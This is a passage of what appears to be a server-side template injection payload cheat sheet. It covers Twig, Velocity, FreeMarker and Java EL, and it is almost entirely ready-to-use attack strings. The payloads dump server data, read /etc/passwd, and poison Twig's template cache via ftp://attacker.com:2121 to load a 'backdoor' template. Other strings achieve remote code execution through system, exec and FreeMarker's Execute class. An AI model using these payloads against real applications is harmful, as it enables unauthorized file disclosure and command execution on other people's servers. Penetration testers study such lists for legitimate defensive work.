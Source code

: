 ```twig
{{ dump(app) }}
{{ app.request.server.all|join(',') }}
```

### LFI / Exfil:
```twig
"{{ '/etc/passwd' | file_excerpt(1,30) }}"
```

### Exploit via Template Cache Poisoning:
```twig
{{ _self.env.setCache("ftp://attacker.com:2121") }}
{{ _self.env.loadTemplate("backdoor") }}
```
### RCE:
```twig
{{['id']|filter('system')}}
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('id')}}
```

---

###  Velocity (Java)

```velocity
#set($x="")#set($rt=$x.class.forName("java.lang.Runtime"))#set($ex=$rt.getRuntime().exec("id"))$ex.waitFor()
```

---
### Freemaker (Java)

```freemarker
${7*7}   → 49
```
### RCE:
```freemarker
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
<#assign x="freemarker.template.utility.Execute"?new()>${x("cat /etc/passwd")}
```

---
### Java EL (Expression Language)

```jsp
${7*7}
${{7*7}}
```
### Enumeration:
```jsp
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../etc/passwd").getContent()}
${T(java.lang.System).getenv()}
${T(java.lang.Runtime).getRuntime().exec('id')}
```
